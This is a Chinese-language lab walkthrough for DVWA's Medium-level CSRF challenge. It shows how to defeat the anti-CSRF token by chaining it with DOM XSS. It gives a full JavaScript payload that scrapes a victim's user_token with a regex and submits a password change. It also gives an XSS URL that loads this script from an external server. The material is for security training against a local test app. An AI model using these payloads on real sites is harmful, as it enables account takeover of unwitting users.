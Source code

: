 检查一下源代码，防线多了个token

```
# 检测用户的 user_token
checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );
```

相对于 Low 级别，实际上就是增加了一个 token 检测，这样我们 CSRF 攻击的时候必须知道用户的 token 才可以成功。

通关思路：使用 XSS 来获取用户的 token ，然后将 token 放到 CSRF 的请求中。因为 HTML 无法跨域，这里我们尽量使用原生的 JS 发起 HTTP 请求才可以。

1.首先新建csrf.js

```
// 首先访问这个页面 来获取 token
var tokenUrl = 'http://127.0.0.1:8888/vulnerabilities/csrf/';

if(window.XMLHttpRequest) {
    xmlhttp = new XMLHttpRequest();
}else{
    xmlhttp = new ActiveXObject("Microsoft.XMLHTTP");
}

var count = 0;
xmlhttp.withCredentials = true;
xmlhttp.onreadystatechange=function(){
    if(xmlhttp.readyState ==4 && xmlhttp.status==200)
    {
          // 使用正则提取 token
        var text = xmlhttp.responseText;
        var regex = /user_token\' value\=\'(.*?)\' \/\>/;
        var match = text.match(regex);
        var token = match[1];
          // 发起 CSRF 请求 将 token 带入
        var new_url = 'http://127.0.0.1:8888/vulnerabilities/csrf/?user_token='+token+'&password_new=111&password_conf=111&Change=Change';
        if(count==0){
            count++;
            xmlhttp.open("GET",new_url,false);
            xmlhttp.send();
        }
    }
};
xmlhttp.open("GET",tokenUrl,false);
xmlhttp.send();
```

然后将文件放在外网的服务器上，然后访问网页，直接发起xss测试，这里直接通过 script 标签的 src 来引入外部 js，访问之后此时密码就被更改为 111 了

```
http://127.0.0.1:8888/vulnerabilities/xss_d/?default=English&a=</option></select><script src="http://www.sqlsec.com/csrf.js"></script>
```

